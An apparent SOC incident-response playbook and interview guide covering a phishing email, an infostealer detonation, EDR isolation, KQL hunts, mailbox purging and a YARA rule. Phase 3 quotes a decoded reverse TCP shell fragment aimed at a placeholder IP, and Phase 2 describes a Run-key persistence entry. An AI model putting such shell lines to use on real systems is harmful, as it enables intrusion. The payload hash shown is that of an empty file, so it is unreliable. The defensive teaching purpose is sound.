

# Incident Playbook: Phishing Emails and Endpoint Malware Investigation

## 1. Scenario & Trigger Definition
A dual-trigger security event occurs in the enterprise SOC:
1. **User Submission:** An HR employee forwards a suspicious email titled *"Urgent: Updated Health Insurance Policy - Mandatory Review"* with an attached file: `Policy_Update_2026.zip`.
2. **EDR Alert (CrowdStrike / Defender for Endpoint):**
   - **Severity:** CRITICAL
   - **Host:** `HR-LAPTOP-14` (IP: `10.0.4.118`)
   - **Process Lineage Detection:** `winword.exe` $\longrightarrow$ `cmd.exe` $\longrightarrow$ `powershell.exe -w hidden -enc JABzAD0...`
   - **Network Event:** Outbound HTTPS connection initiated from `powershell.exe` to unknown IP `198.51.100.220:443`.

---

## 2. Forensic Investigation Flowchart



---

## 3. Step-by-Step Incident Response Execution

### Phase 1: Email Header & Authentication Forensics
1. **Extract RFC 822 Email Headers:** Inspect the raw email source to trace physical routing:
   ```http
   Received: from mail.spoofed-domain.com (mail.spoofed-domain.com [203.0.113.50])
   From: "HR Benefits Portal" <benefits@enterprise.com>
   Return-Path: <bounce@attacker-controlled-server.net>
   Authentication-Results: spf=fail (sender IP is 203.0.113.50) smtp.mailfrom=attacker-controlled-server.net;
       dkim=none;
       dmarc=fail action=none header.from=enterprise.com
   ```
   - **Forensic Diagnosis:** `Authentication-Results` shows **DMARC=fail** and **SPF=fail**. The sender spoofed the display name and `From` address, but physical transmission originated from an unauthenticated IP (`203.0.113.50`).
2. **Defang Indicators of Compromise (IoCs):**
   - Neutralize links and IPs before sharing in tickets: `hxxps[://]evil-phish[.]com/login`, IP `198[.]51[.]100[.]220`.
3. **Calculate Hash of the Extracted Payload:**
   ```bash
   sha256sum Policy_Update_2026.exe
   # Output: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
   ```

---

### Phase 2: Sandbox Detonation & Behavioral Profiling
Detonate the attachment in a hardened, non-networked sandbox (Cuckoo / Any.Run):
- **Process Activity:** `Policy_Update_2026.exe` writes a secondary payload to `C:\Users\Target\AppData\Local\Temp\svchost.exe`.
- **Persistence Mechanism:** Writes an autostart registry entry under `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SystemUpdate`.
- **Network C2 Activity:** Initiates periodic HTTPS beacons every 60 seconds with 15% random jitter to `198.51.100.220:443`.
- **Classification:** Commodity Information Stealer / Loader (e.g., Agent Tesla, RedLine).

---

### Phase 3: Host Containment & EDR Deep Triage (SLA: < 10 Minutes)
1. **Network Containment:** Execute immediate EDR isolation:
   - Severs all local and internet network connections on `HR-LAPTOP-14`.
   - Leaves strictly the encrypted EDR telemetry tunnel active for remote investigation.
2. **Decode Malicious Command Lines:**
   - Decode the Base64 command executed by the malware:
     ```powershell
     # Attacker command: powershell.exe -enc JABzAD0ATgBlAHcALQBPAGIA...
     # Decoded: $s=New-Object Net.Sockets.TCPClient("198.51.100.220",443);...
     ```
   - Confirms an active reverse TCP shell was spawned!
3. **Terminate Malicious Processes:** Kill the malicious process tree (`Stop-Process -Id <PID> -Force`).

---

### Phase 4: Enterprise-Wide Threat Hunting (Scoping)
Execute SIEM searches to determine the full enterprise blast radius:

```kql
// Microsoft Sentinel KQL: Hunt for anyone else who communicated with C2 IP
DeviceNetworkEvents
| where RemoteIP == "198.51.100.220"
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteIP, RemotePort

// Hunt for all employees who received the malicious email
EmailEvents
| where SenderFromAddress has "attacker-controlled-server.net" or Subject has "Updated Health Insurance Policy"
| project Timestamp, RecipientEmailAddress, Subject, DeliveryAction
```

1. **Purge Mailboxes (O365 Compliance):**
   ```powershell
   # Search and purge malicious email across all enterprise mailboxes
   New-ComplianceSearchAction -SearchName "Phish-Campaign-2026" -Purge -PurgeType HardDelete
   ```
2. **Perimeter Firewall Block:** Push firewall block rules for IP `198.51.100.220` and sender domain to Palo Alto / Fortinet edge firewalls.

---

### Phase 5: Eradication, Remediation & Post-Incident
1. **Re-imaging:** Never attempt to manually "clean" an infected enterprise endpoint; re-image the machine from a known-good baseline corporate image.
2. **Credential Rotation:** Force password reset and revoke all active sessions for the compromised HR user.
3. **YARA & Detection Engineering:** Author a custom YARA rule detecting the payload's byte patterns and push to EDR sensors:
   ```yara
   rule Trojan_Loader_Oct2026 {
       meta:
           description = "Detects HR Phishing Payload"
       strings:
           $magic = { 4D 5A } // MZ header
           $s1 = "SystemUpdate" wide ascii
           $s2 = "198.51.100.220" wide ascii
       condition:
           $magic at 0 and ($s1 and $s2)
   }
   ```

---

## 4. Key Differences Matrix: Email Authentication Checks

| Mechanism | RFC Standard | What It Verifies | Primary Failure Mode |
| :--- | :--- | :--- | :--- |
| **SPF** (Sender Policy Framework) | RFC 7208 | Sending server's IP is authorized in DNS | Breaks on email forwarding |
| **DKIM** (DomainKeys Identified Mail)| RFC 6376 | Cryptographic digital signature on body/headers | Signature invalidated if mail gateway modifies body |
| **DMARC** (Domain-based Message Auth)| RFC 7489 | **Enforces SPF + DKIM Alignment** with `From:` header | Dependent on domain publishing strict `p=reject` policy |

---

## 5. Interview Takeaways & Rapid-Fire Q&A

### 60-Second Elevator Pitch
> *"When investigating a phishing incident coupled with an EDR endpoint malware alert, response splits into simultaneous email forensics and host containment. First, verify the phishing vector by analyzing raw RFC 822 email headers for SPF, DKIM, and DMARC alignment failures. On the endpoint, immediately execute EDR network isolation on the infected host to sever active C2 connections, decode obfuscated command lines, and capture volatile memory before process termination. Scoping requires executing enterprise-wide SIEM sweeps to identify all recipients of the phishing email and all hosts communicating with the C2 infrastructure. Finally, purge malicious emails from all mailboxes via automated compliance searches, push perimeter firewall blocks, re-image the compromised endpoint from a clean baseline, and author custom YARA rules to detect future variants."*

### Candidate Traps & Common Mistakes
- **Trap 1:** Clicking links or opening attachments on an analyst workstation to "see what happens". *Correction:* Detonate files strictly inside isolated, monitored sandboxes (Any.Run, Cuckoo) or analyze them statically.
- **Trap 2:** Manually deleting malware files on the endpoint instead of re-imaging. *Correction:* Modern loaders drop multi-stage rootkits and secondary persistence; the only reliable remediation is complete disk re-imaging.
- **Trap 3:** Sharing raw malicious URLs in unencrypted chat tickets. *Correction:* Always defang URLs (`hxxps[://]...`) to prevent accidental clicks by team members.

### Expected Follow-Up Questions
1. *What is DMARC Alignment?*
   - DMARC alignment requires that the domain in the visible `From:` header matches the domain authenticated by SPF (`Return-Path`) and/or the domain validated by the DKIM cryptographic signature (`d=` tag), preventing display-name spoofing.
2. *Why is EDR Network Isolation preferred over pulling the physical Ethernet cable?*
   - Pulling the cable terminates network access entirely, preventing the SOC analyst from remotely investigating, acquiring volatile RAM, or triaging processes over the EDR management console. EDR isolation keeps the management tunnel alive while severing all other traffic.
